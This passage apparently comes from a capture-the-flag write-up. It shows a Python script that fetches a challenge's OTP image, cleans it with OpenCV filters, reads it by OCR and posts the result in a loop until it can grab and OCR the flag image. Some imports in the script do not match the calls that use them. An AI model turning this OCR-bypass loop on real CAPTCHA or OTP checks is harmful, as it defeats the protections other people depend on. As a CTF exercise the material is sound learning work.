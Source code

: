 This essentially moves through the image in a 3x3 matrix, increasing and decreasing the pixel values accordingly. Since this image black and white, the contrast between the two grew. Yet, even this did not work to improve my success rate.

After some digging and asking around, Discord user TYKUHN2#5283 gave me a decent nudge to develop a better filter, and I was able to finalize my script.

## Final Code and Grabbing Flag
```python
#!/usr/bin/python3

import cv2
import urllib
import requests
import numpy as np
import pytesseract
import re

url = "http://challenge.ctf.games:30495/"

def clean_html(html):
	clean = re.compile("<.*?>")
	return re.sub(clean, '', html)

if __name__ == "__main__":
	while True:
		# Reading image from web instead of downloading
		req = urllib.request.urlopen(url + "/static/otp.png")
		arr = np.asarray(bytearray(req.read()), dtype=np.uint8)
		img = cv2.imdecode(arr, -1)
		
		# Filtering
		kernel = np.ones((2,1), np.uint8)
		gray = cv2.cvtColor(img, cv2.COLOR_RGB2GRAY)

		gray, img_bin = cv2.threshold(gray,128,255,cv2.THRESH_BINARY | cv2.THRESH_OTSU)
		gray = cv2.bitwise_not(img_bin)

		img = cv2.erode(gray, kernel, iterations=1)
		img = cv2.dilate(img, kernel, iterations=1)
		text = pytesseract.image_to_string(img).strip()
		
		# Making the request
		data = dict(otp_entry=text)
		requests.post(url=url, data=data)
		check = requests.get(url)
		counter = clean_html(check.text).split("}")[4].strip()
		print(f"[+] Inputting: {text}, counter now at {counter}")
		try:
			# Reading image from web instead of downloading
			req_flag = urlopen(url + "/static/flag.png")
			arr_flag = np.asarray(bytearray(req_flag.read()), dtype=np.uint8)
			img_flag = cv2.imdecode(arr_flag, -1) # 'Load it as it is'
			cv2.imwrite("flag.png", img_flag)
			print(f"[+] DONE! Iterations: {counter}")
			
			real_flag_img = cv2.imread("flag.png")
			flag_text = pytesseract.image_to_string(real_flag_img)
			print(f"[+] FLAG: {flag_text}")
		except:
			pass
```

